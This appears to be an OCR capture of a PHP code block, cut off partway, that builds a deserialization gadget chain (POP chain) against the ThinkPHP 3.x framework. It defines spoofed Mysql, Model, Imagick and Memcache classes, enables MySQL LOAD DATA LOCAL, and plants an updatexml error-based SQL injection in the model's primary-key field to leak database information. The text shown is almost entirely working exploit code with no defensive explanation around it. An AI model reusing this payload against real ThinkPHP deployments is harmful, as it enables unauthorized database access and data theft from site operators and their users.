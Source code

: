 ![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204222033257.png)

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true//允许使用load data local
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "thinkphp_v3",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "thinkphp_v3",
            "password" => "thinkphp_v3"
        );
    }
}
namespace Think {
    class Model
    {
        protected $db = null;
        protected $trueTableName='user';
        protected $pk = "id='abc' and updatexml(1,concat(0x7e,(select @@version),0x7e),1);#";

        public function __construct($db)
        {
            $this->db=$db;
        }
    }
}
namespace Think\Image\Driver {
    class Imagick
    {
        private $img;

        public function __construct($img)
        {
            $this->img = $img;
        }
    }
}

namespace Think\Session\Driver {
    class Memcache
    {
        protected $sessionName = '';
        protected $handle = null;

        public function __construct($sessionName, $handle)
        {
            $this->sessionName = $sessionName;
            $this->handle = $handle;
        }

    }
}


namespace {
    $db=new Think\Db\Driver\Mysql();
```